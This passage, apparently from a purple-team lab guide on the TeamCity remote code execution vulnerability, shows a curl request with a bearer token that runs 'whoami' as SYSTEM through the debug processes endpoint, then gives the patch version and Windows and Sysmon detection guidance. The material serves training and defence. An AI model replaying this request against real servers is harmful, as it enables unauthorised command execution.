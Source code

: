 ##### Executing Commands

Now we can run arbitrary shell commands on the server with the following request to the `/app/rest/debug/processes` endpoint.

```shell
curl -H "Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.dWRYeEc2dFM3X2VuRV9yZTJCbFpOcUloNWVV.Y2M0ODIzZGEtMTUyNy00NmY3LThiNzgtM2E0M2YzMmY0YjQ4" -X POST "http://<Target_IP>/app/rest/debug/processes?exePath=cmd.exe&params=/c%20whoami"

StdOut:nt authority\system

StdErr:
Exit code: 0
Time: 107ms

```

* * *

#### Mitigation

JetBrains has patched this vulnerability in TeamCity version `2023.05.4`, which was released on 2023-09-18. Thus, upgrading to this version is advised to effectively mitigate the vulnerability.

* * *

## Post-Exploitation Forensic Analysis

Detecting exploitation attempts of the TeamCity RCE vulnerability can be achieved through the analysis of event logs and network traffic for indicators of compromise, among other methods. This part provides guidance on leveraging Windows event logs, Sysmon logs, and captured network traffic within the Windows Purple Module target to perform forensic analysis and identify evidence of exploitation related to the TeamCity RCE vulnerability.

Ensure that the target has sufficient lifetime to conduct the forensic analysis effectively. If the target's lifetime is insufficient, extend it as necessary before proceeding.

Once the attack part has been completed and the target's lifetime has been confirmed or extended, connect to the Windows Purple Module target to perform the forensic analysis.

#### Windows Log Analysis

On Windows systems, monitoring Event ID `4688` (A new process has been created) or Event ID `1` (Sysmon: process creation) can help identify unexpected processes initiated by TeamCity. These logs can be accessed via the `Windows Event Viewer`.

To access Sysmon logs:

- Open the Event Viewer by typing `Event Viewer` in the Windows search bar and selecting the application.
- In the Event Viewer, navigate to `Applications and Services Logs` \> `Microsoft` \> `Windows` \> `Sysmon` \> `Operational`.

Review the logs for anomalies, such as unexpected parent-child process relationships. For example, TeamCity spawning unusual processes may indicate exploitation. The screenshot below highlights an unusual interaction between TeamCity's `java.exe` process and `cmd.exe`, where the latter executes a `whoami` command captured in Sysmon (Event ID 1) logs following the attack.
